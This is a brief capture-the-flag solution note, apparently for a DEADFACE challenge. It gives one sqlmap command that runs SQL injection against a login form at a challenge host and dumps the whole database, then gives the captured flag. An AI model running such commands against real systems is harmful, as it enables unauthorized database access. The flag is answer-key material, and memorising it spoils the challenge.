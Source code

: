 python sqlmap.py --dbms=mysql -u https://trendytrove.deadface.io/login.php --data "username=&password=" --cookie="PHPSESSID=123" --all

Change cookie later in the browser - get the flag

flag{Tr3ndy_Tr0v3_$QL_1nj3ct10n}